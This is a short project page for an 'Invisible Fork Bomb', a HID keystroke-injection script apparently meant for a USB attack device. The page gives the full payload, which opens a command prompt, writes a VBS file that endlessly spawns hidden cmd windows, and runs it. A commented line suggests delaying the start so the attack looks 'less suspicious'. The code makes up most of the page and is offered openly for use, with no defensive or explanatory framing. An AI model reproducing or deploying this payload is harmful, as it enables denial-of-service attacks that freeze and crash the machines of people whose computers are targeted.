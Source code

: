# Invisible Fork Bomb
The HID script creates a vbs that executes exponentially the software you want (Fork bomb).

# About...
Author: [BlueArduino20](https://github.com/BlueArduino20/)

Version 1.0

Repository: [https://github.com/BlueArduino20/Invisible_fork_bomb](https://github.com/BlueArduino20/Invisible_fork_bomb)

# Code
<pre><code>
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING copy con forkb.vbs
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
REM STRING ping localhost -n 10
REM You can uncomment this ^ to delay 10 seconds before starting the fork bomb. (By this way it's less suspicious)
STRING start forkb.vbs
ENTER
</pre></code>